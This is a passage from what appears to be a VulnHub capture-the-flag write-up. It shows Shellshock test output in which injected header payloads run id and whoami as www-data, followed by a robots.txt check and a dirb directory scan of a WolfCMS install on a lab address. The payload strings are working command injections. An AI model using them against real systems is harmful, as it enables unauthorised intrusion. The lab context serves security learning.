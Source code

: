 ```
[*] Testing ... 
[*] Type 1 >> () { xxxxxxxxxxxxxxxxxx; }; echo ; echo ; /usr/bin/id;
[*] Executing command:/usr/bin/id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] Type 2 >> () { :; }; echo ; echo ; /bin/bash -c  /usr/bin/whoami;
[*] Executing command:/usr/bin/whoami

www-data
```

I moved on to other point.
I first check at **/robots.txt**
```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

I accessed to **/wolfcms**
I tried to use **dirb** to check for any common paths
```
root@BOEING:/kapi/vulnhub/sic0s1.1# dirb http://192.168.159.131/wolfcms

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  3 08:20:52 2017
URL_BASE: http://192.168.159.131/wolfcms/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.159.131/wolfcms/ ----
+ http://192.168.159.131/wolfcms/composer (CODE:200|SIZE:403)                                                                                                                       
+ http://192.168.159.131/wolfcms/config (CODE:200|SIZE:0)                                                                                                                           
==> DIRECTORY: http://192.168.159.131/wolfcms/docs/                                                                                                                                 
+ http://192.168.159.131/wolfcms/favicon.ico (CODE:200|SIZE:894)                                                                                                                    
+ http://192.168.159.131/wolfcms/index (CODE:200|SIZE:3975)                                                                                                                         
+ http://192.168.159.131/wolfcms/index.php (CODE:200|SIZE:3975)                                                                                                                     
==> DIRECTORY: http://192.168.159.131/wolfcms/public/                                                                                                                               
+ http://192.168.159.131/wolfcms/robots (CODE:200|SIZE:0)                                                                                                                           
+ http://192.168.159.131/wolfcms/robots.txt (CODE:200|SIZE:0)                                                                                                                       
                                                                                                                                                                                    
---- Entering directory: http://192.168.159.131/wolfcms/docs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                    
---- Entering directory: http://192.168.159.131/wolfcms/public/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
```